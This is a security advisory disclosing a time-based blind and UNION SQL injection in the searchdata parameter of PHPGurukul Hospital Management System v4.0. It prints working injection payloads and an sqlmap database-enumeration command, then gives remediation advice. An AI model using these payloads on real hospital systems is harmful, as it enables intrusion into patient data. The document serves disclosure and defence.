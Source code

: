 
# Time-Based Blind SQL Injection Vulnerability Report

## Affected Product

| **Attribute**         | **Details**                                                                 |
|-----------------------|-----------------------------------------------------------------------------|
| **Product Name**      | Hospital Management System                                                  |
| **Vendor**            | PHPGurukul                                                                  |
| **Version**           | v4.0                                                                        |
| **Affected File**     | `hospital/hms/doctor/search.php`                                              |
| **Affected Parameter**| `searchdata`                                                                  |
| **Method**            | `POST`                                                                      |
| **Vulnerability Type**| Time-Based Blind SQL Injection                                              |

## Official Website

[PHPGurukul Hospital Management System v4.0](https://phpgurukul.com/hospital-management-system-in-php/)

## Vulnerability Overview

A time-based blind and Union SQL injection vulnerability exists in the `searchdata` parameter  of **Hospital Management System v4.0**, allowing remote attackers to execute arbitrary SQL commands by triggering  with union and time delays in the database response.

## Steps to Reproduce

### 1. Access the Vulnerable URL

- Enable Burp Suite and configure your browser to route traffic through it.
- Visit the doctor Login page and autheticate, then search anything on search bar which redirects to `search.php`.
- Fill any data you wish on search bar then turn on intercept. 

```
http://192.168.137.89/hospital/hms/doctor/search.php
```

![Login Page](https://github.com/Ant1sec-ops/HMS4.0-Avdisories/blob/main/Union-based-sqli-on-doctor-search/1.png)

![Login Page](https://github.com/Ant1sec-ops/HMS4.0-Avdisories/blob/main/Union-based-sqli-on-doctor-search/2.png)

---

### 2. Intercept the Request

- Send the intercepted request to **Repeater** in Burp Suite.
- Add an asterisk `*` to the `searchdata` field to identify injection points.
- Save the modified HTTP request as `sql-doctor-search` for SQLMap.

![Burp Repeater Modification](https://github.com/Ant1sec-ops/HMS4.0-Avdisories/blob/main/Union-based-sqli-on-doctor-search/3.png)

![Burp Repeater Modification](https://github.com/Ant1sec-ops/HMS4.0-Avdisories/blob/main/Union-based-sqli-on-doctor-search/4.png)


---

### 3. Manual Exploitation (Not Recommended)

- Use the following payload in the `searchdata` field to test time-based and Union SQL injection manually:

```sql
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: searchdata=sqliTtest' AND (SELECT 1999 FROM (SELECT(SLEEP(5)))vfwq) AND 'QENh'='QENh&search=

    Type: UNION query
    Title: Generic UNION query (NULL) - 11 columns
    Payload: searchdata=sqliTtest' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x7176707a71,0x61474b7357686d67784f74486a517671786974734f734949635872704967634564416370754d4d4e,0x716b7a7671)-- -&search=

```

> ⚠️ Manual testing of time-based injections is slow and prone to error. It's recommended to use **SQLMap** for automated exploitation and enumeration.

---

### 4. Automated Exploitation Using SQLMap

To list the databases via SQLMap:

- Open Kali Linux terminal and run:

```bash
sqlmap -r sql-doctor-search --dbs
```

- This command uses the `sql-doctor-search` request file (`-r` flag) and attempts to enumerate databases using the `--dbs` flag.

![SQLMap Database Enumeration](https://github.com/Ant1sec-ops/HMS4.0-Avdisories/blob/main/Union-based-sqli-on-doctor-search/5.png)

![SQLMap Database Enumeration](https://github.com/Ant1sec-ops/HMS4.0-Avdisories/blob/main/Union-based-sqli-on-doctor-search/6.png)


---

## Remediation

1. **Use Prepared Statements (Parameterized Queries):**  
   Avoid dynamic SQL queries that directly concatenate user input.

2. **Input Validation & Sanitization:**  
   Implement strong input validation and reject inputs containing SQL metacharacters.

3. **Least Privilege Principle:**  
   Ensure the database account used by the application has only the minimum required privileges.

4. **Web Application Firewall (WAF):**  
   Deploy a WAF to detect and block malicious SQL queries.

5. **Error Handling:**  
   Suppress detailed database errors from user-facing interfaces.

---

## References

- OWASP Top 10 - [A03: Injection](https://owasp.org/Top10/A03_2021-Injection/)
- [SQLMap Tool](https://sqlmap.org)
- [OWASP SQL Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)

---

## Disclosure Timeline

| Date       | Activity                             |
|------------|--------------------------------------|
| 2025-06-08 | Vulnerability Identified via SQLMap  |

---

## Author

**Report generated by:** `Subhash Paudel`  
**Tool Used:** SQLMap  
